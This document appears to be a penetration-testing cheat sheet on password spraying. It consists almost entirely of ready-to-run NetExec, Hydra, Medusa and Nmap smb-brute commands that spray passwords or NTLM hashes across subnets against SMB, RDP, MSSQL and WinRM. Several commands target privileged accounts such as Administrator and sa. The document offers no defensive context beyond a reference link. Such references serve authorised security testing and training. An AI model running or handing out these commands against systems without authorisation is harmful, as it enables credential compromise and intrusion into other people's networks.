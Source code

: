 # Unix Shell

Search Tag(s): #password-spraying

TODO: Add more knowledge to Linux for password reuse

## 01 - SMB

### 1.1 - NetExec

Password spraying.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec smb <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]
```

### 1.2 - Hydra

```
$ hydra -L users.lst -p "<password>" -M ip_targets.txt smb
```

### 1.3 - Medusa

```
$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smb

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smbnt
```

### 1.4 - Network Mapper

```
$ nmap -p 445 -Pn -n --script smb-brute --script-args "userdb=users.lst,passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>

$ nmap -p 445 -Pn -n --script smb-brute --script-args "smbusername='Administrator',passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>
```

## 02 - RDP

### 2.1 - NetExec

Password spraying

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec rdp <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]
```

### 2.2 - Hydra

```
$ hydra -l Administrator -p "<password>" -M ip_targets.txt rdp

$ hydra -L users.lst -p "<password>" -M ip_targets.txt rdp
```

### 2.3 - Medusa

```
$ medusa -H ip_targets.txt -u Administrator -p "<password>" -M rdp

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M rdp
```

## 03 - MSSQL

### 3.1 - NetExec

```
$ netexec mssql <IP>/<CIDR> -u sa -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec mssql <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

### 3.2 - Hydra

```
$ hydra -l sa -p "<password>" -M ip_targets.lst mssql

$ hydra -L users.lst -p "<password>" -M ip_targets.lst mssql
```

### 3.3 - Medusa

```
$ medusa -H ip_targets.txt -u sa -p "<password>" -M mssql

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M mssql
```

## 04 - WinRM

### 4.1 - NetExec

```
$ netexec winrm <IP>/<CIDR> -u Administrator -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec winrm <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

---
## References

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)